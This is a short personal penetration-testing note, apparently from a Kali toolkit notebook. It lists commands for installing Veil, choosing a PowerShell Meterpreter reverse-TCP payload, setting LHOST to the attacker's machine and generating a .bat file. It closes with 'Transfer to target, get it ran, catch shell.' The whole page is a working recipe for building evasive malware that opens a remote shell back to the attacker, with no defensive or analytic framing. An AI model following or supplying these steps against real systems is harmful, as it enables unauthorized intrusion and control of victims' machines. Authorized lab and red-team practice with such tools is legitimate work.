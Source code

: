 ```yaml
---
category: Uncategorized
tags: []
---
```

```bash - kali
sudo apt install veil
```

```bash - kali
veil
```

Next through all the prompts if setting up for the first time.

If told to, run:
```bash - kali
/usr/share/veil/config/setup.sh --force --silent
```

```bash - kali
use 1
```

```bash - kali
list
```

example: `powershell/meterpreter/rev_tcp.py`

```bash - kali
use 22
```

```bash - kali
set LHOST $KALI
```

```bash - kali
options
```

```bash - kali
generate
```

```bash - kali
reverseveil
```

```bash - kali
cp /var/lib/veil/output/source/reverseveil.bat .
```

[[APON/7._Tools/Metasploit#Meterpreter Listener 1 Liner]]

Transfer to target, get it ran, catch shell.






